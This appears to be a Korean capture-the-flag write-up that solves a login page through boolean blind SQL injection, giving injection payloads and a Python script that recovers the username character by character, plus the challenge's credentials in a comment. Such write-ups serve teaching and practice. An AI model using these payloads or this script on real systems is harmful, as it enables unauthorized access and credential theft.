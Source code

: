 # # 0 Flag

Create a new page 버튼을 누르면 로그인 화면이 나온다.

username에 싱글쿼터를 넣어보니 아래 사진 처럼 에러가 뜨는 것을 볼 수 있다. 에러를 자세히 보면 로그인 쿼리가 자세히 출력 되는 것을 볼 수 있다.
얻을 수 있는 정보는 Table 이름과 Column 이름이다. 

![image](https://user-images.githubusercontent.com/38517436/64118999-c8131c80-cdd3-11e9-8806-88b8c828638e.png)


일단 sql injection 공격이 된다는 것을 알게 되었다. 공격 시나리오를 위해 username에

```
' or 1=1# 
```
이라는 값을 주었더니 Invalid password 라는 문구가 출력되었다. username에 아무런 값을 던져주니 unknown username 이라고 출력이 된다.
따라서 query 문이 참이면 Invalid password, query 문이 거짓이면 unknown username 이라는 값을 주니 blind sqli 공격이 가능하다.

우선 어떤 계정으로 로그인 하기 위해 username과 password를 알아내야 한다. 우리는 에러 부분으로 Column 이름을 알고 있기 때문에 다음과 같은 공격이 가능하다.

### Get username and password

  username의 길이는 뭔지 모르기 때문에 
  ```
  ' or length(username)=1#
  ```
  라고 입력하고 참(Invalid password)이 뜰때 까지 =1, =2, =3 ... 값을 늘려간다.
  
  ![image](https://user-images.githubusercontent.com/38517436/64119541-12e16400-cdd5-11e9-8ae6-bb507cd2e988.png)
  
  위 query 값을 보냈을때 username length 는 5인 것을 알 수 있다.
  
  똑같은 방법으로 password length를 알아본 결과 5인 것을 알 수 있었다.
  
  ![image](https://user-images.githubusercontent.com/38517436/64119666-55a33c00-cdd5-11e9-9492-16428c02f6d2.png)
  
  username과 password의 lenght를 알아냈으니 column 에 들어있는 데이터를 가져와 보자.
  ```
  ' or substr(username,1,1) = 'a'#
  ```
  다음과 같은 query로 username의 값을 하나씩 알 수 있게 된다.
  
  이러한 과정을 python code로 구현해 보았다.
  
  ```python
  import requests
  import string

  url = 'http://35.190.155.168/87ece3af89/login'
  result = ''
  chars = string.ascii_lowercase + string.punctuation + string.digits
  # 0 Flag kalyn:jesse

  ### Get username

  for count in range(1,6):
    for char in chars:
      payload = "' or substr(username,{},1) = '{}'#".format(count, char)
      data = {'username' : payload, 'password' : '1'}

      res = requests.post(url, data = data)
      print(payload)

      if res.text.find('Invalid password') != -1:
        result = result + char
        print(result)
        break

  ```